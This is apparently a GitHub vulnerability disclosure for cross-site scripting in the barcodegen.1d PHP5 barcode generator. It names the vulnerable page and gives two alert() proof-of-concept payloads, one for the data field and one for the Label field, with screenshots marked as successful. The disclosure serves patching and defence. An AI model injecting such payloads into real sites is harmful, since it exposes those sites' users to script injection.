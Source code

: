 # barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting

Barcode Generator barcodegen.1d PHP5-v5.0.2~5.2.1

Target：https://[vulnerable site]/barcode/HTML/BCGothercode.php
  
  Once inserted, use [” onmouseover=”alert(‘test’)] in data,
  ![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting/blob/main/data.png)
  
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting/blob/main/data_test.png)
  
  Other field, use ” > < img src=/ onerror=alert(‘test’)> in Label,
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting/blob/main/label.png)
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting/blob/main/label_test.png)
  
  
